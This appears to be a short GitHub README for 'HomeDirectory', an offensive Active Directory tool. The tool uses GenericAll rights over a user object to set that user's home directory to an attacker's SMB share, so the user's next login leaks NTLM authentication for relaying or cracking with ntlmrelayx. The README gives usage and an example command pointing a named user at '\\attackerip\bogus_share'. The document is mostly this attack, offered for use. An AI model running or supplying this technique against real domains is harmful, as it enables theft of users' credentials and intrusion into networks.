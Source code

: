 # HomeDirectory
Leverage existing AD rights ('GenericAll') over an object ie: user to set their profile to an attacker smb server ie: ntlmrelayx to dump hashes, relay, crack.

Usage: HomeDirectory.exe \<username\> \<drive letter\> \<attacker share\>   

Example: HomeDirectory.exe jblogg N \\\attackerip\\bogus_share 
            
  [*] *targets next login will trigger NTLM auth when trying to retrieve profile from attackers smb server*
  
 
